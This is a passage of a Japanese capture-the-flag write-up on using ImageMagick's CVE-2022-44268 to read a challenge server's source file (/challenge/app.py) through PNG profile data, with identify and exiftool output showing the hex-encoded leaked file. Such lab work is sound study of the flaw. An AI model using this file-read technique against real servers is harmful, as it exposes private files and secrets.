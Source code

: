 変換後のファイル情報から`/challenge`というディレクトリ配下にアプリのソースがあることはわかりましたが、
肝心のソースファイルやフラグファイルがどこにあるのかわかりませんでした。  

どうやら、`/challenge/app.py`が当たりだったようです。  
後から分かったのですが、`/challenge/app.py`は確認していたのですが、`CVE-2022-44268`で取得できるProfile情報の見方が間違っていたようで、ちゃんとデータが取れていたようです。
（他の画像ファイルとサイズを比較していればすぐに気づけたと思います。）

Profileにそのままは出力される時とされない時があるようです。サイズの大小？

- Rawとして出力される場合

```sh
$ identify -verbose 290577.png
<SNIP>
    Raw profile type: 

     313
323836313720286d616769636b292052203238363136203120312030202d312034313934
353630203239302030203020302030203020302030203230203020312030203539333932
323220313033303535333620313239362031383434363734343037333730393535313631
352039343736303730393635363537362039343736303731333231323533332031343037
323238373934333334343020302030203020302031363738313331322038343036323437
203020302030203137203120302030203020302030203934373630373134313236383332
203934373630373134333335313336203934373630373433313239303838203134303732
323837393433343038302031343037323238373934333432373920313430373232383739
3433343237392031343037323238373934333437333520300a

    signature: 72b13485f86a589c11ef53384f9944c990abe38c93c9f6fd75442f3efd19e3c4
  Artifacts:
<SNIP>
```

- 出力されない場合

```sh
$ identify -verbose 995533.png
<SNIP>
    signature: 72b13485f86a589c11ef53384f9944c990abe38c93c9f6fd75442f3efd19e3c4
  Profiles:
    Profile-py: 2553 bytes
  Artifacts:
    filename: 995533.png
    verbose: true
<SNIP>
```

そのまま出力されない場合でも、以下のようにすると確認ができるようです。

```sh
$ exiftool 995533.png -b
Warning: [minor] Text chunk(s) found after PNG IDAT (may be ignored by some readers) - 995533.png
11.88995533.png.19272023:12:03 20:03:24+09:002023:12:04 22:26:20+09:002023:12:03 20:03:22+09:00644PNGPNGimage/png10241800002.22552023:12:03 11:03:24
py
    2553
66726f6d20666c61736b20696d706f727420466c61736b2c2072656e6465725f74656d70
6c6174652c20726571756573742c2073656e645f66696c652c20666c6173682c20726564
69726563742c2075726c5f666f722c2073656e645f66726f6d5f6469726563746f72790d
<SNIP>
3d3d20225f5f6d61696e5f5f223a0d0a202020206170702e72756e2864656275673d4661
6c73652c20706f72743d383030302c20686f73743d22302e302e302e3022290d0a
[minor] Text chunk(s) found after PNG IDAT (may be ignored by some readers)2023-12-03T11:03:24+00:002023-12-03T11:03:24+00:002023-12-03T11:03:24+00:00/challenge/./uploads/IM-1701601404.63588017016014041024 10.001024
```
